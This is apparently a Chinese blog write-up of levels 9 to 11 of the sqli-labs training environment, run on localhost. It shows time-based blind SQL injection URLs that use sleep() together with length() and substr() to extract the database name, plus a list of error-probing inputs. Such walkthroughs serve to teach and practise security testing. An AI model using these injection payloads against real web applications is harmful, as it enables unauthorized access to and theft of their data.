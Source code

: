 ![image-20220921091514424](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921091514424.png)

## 第九关

发现无论输入什么都无法返回任何报错信息

尝试使用时间盲注

获取长度：http://127.0.0.1:8080/sqli-labs/Less-9/?id=1' and if(length(database())=*_*,sleep(1),1)--+

获取名称：http://127.0.0.1:8080/sqli-labs/Less-9/?id=1' and if(substr(database(),1,1)=%27*_*%27,sleep(1),1)--+

![image-20220921093932316](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921093932316.png)

## 第十关

尝试触发报错，均无法触发回显

```
',",--+,#,%2d%2d%20,id=
```

![image-20220921094940697](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921094940697.png)

尝试使用时间报错，成功延迟2秒

```
http://127.0.0.1:8080/sqli-labs/Less-10?id=2"and if(1=1,sleep(2),1)--+
```

![image-20220921095440950](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921095440950.png)

尝试使用database()不等于1，延迟1秒，成功

```
http://127.0.0.1:8080/sqli-labs/Less-10?id=2"and if(length(database())!=1,sleep(1),1)--+
```

![image-20220921095905709](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921095905709.png)

开始注入：

database()长度：http://127.0.0.1:8080/sqli-labs/Less-10?id=2"and if(length(database())!=*_*,sleep(1),1)--+

database()名称：http://127.0.0.1:8080/sqli-labs/Less-10?id=2"and if(substr(database(),1,1)='*_*',sleep(1),1)--+

![image-20220921100259696](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921100259696.png)

## 第十一关

使用aaa’进行尝试，返回报错信息

![image-20220921101524976](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921101524976.png)

